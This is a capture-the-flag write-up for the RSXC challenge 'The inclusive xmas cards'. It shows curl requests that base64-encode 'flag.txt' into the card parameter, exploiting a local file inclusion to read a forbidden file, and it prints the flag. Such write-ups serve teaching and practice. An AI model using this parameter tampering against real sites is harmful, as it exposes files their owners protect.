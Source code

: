 # 19 - The inclusive xmas cards

> We felt that the our last xmas cards weren't that inclusive. So we made even more options, so everyone has one that fits them!
> 
> http://rsxc.no:20019

---

![](00.png "")

Looking around `http://rsxc.no:20019` we can see different xmas cards. It looks like the `card`-key is a `base64` encoded value. We also have that `Finding your card in /files` clue at the top which implies that the card is read from the file system.

![](01.png "")

The `/files` folder does have directory listing enabled and there is a `flag.txt` file in there, but we get a `403 Forbidden` error when trying to browser directly to it.

![](02.png "")

Let's move into the terminal since the xmas cards are ASCII art!


```
$ curl http://rsxc.no:20019/card.php?card=c25vd21lbi50eHQ=
Finding your card in /files
.      *    *           *.       *   .                      *     .
               .   .                   __   *    .     * .     *
    *       *         *   .     .    _|__|_        *    __   .       *
  .  *  /\       /\          *        ('')    *       _|__|_     .
       /  \   * /  \  *          .  <( . )> *  .       ('')   *   *
  *    /  \     /  \   .   *       _(__.__)_  _   ,--<(  . )>  .    .
      /    \   /    \          *   |       |  )),`   (   .  )     *
   *   `||` ..  `||`   . *.   ... ==========='`   ... '--`-` ... * jb .
```

That's more like it. Now let's have a look at that `card`-key.

```
$ echo "c25vd21lbi50eHQ=" | base64 -d
snowmen.txt
```

We have a file name! Could this really be such an easy `LFI` vuln? Let's try.

```
$ curl http://rsxc.no:20019/card.php?card=$(echo -n "flag.txt" | base64)
Finding your card in /files
RSXC{It_is_not_smart_to_let_people_include_whatever_they_want}
```

Guess so!

## Solution

The flag is: `RSXC{It_is_not_smart_to_let_people_include_whatever_they_want}`
